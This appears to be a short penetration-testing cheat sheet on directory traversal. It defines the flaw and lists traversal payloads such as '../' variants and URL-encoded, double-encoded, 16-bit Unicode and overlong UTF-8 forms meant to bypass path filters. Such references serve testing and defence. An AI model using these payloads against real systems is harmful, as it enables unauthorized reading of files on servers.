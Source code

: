 # Traversal Directory

A directory traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.

## Exploit

Basic

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
```

16 bit Unicode encoding

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

Double URL encoding

```powershell
. = %252e
/ = %252f
\ = %255c
```

UTF-8 Unicode encoding

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

## References

* [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
